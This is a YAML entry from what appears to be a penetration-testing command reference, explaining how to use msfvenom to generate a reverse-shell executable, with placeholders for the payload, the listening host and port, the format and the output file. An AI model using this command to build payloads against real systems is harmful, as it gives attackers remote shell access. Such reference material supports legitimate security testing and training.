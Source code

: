 ```yaml
---
description: |
  Metasploit way to generate a reverse shell.

  Command Reference:

    Payload: The payload to generate, such as "linux/x64/shell_reverse_tcp"

    Listening Host: Your machine, used to listen for incoming connections

    Listening Port: Port on which you are listening for connections

    Format: Executable format, like "elf" (not always needed)

    Output file: Executable to run on target (Executable type is set with -f (format))

command: |
  msfvenom -p <payload> lhost=<listening_host> lport=<listening_port> -f <format> -o <output_file>
  
items:
  - Shell
  
target: |
  - Linux_target
  - MacOS_target
  - Windows_target
  
OS:
  - Linux
  - MacOS
  
environment: |
  - Networking
  - Local
  
command_types:
  - Exploitation
  - Reverse_Shell
  
references:

---
```

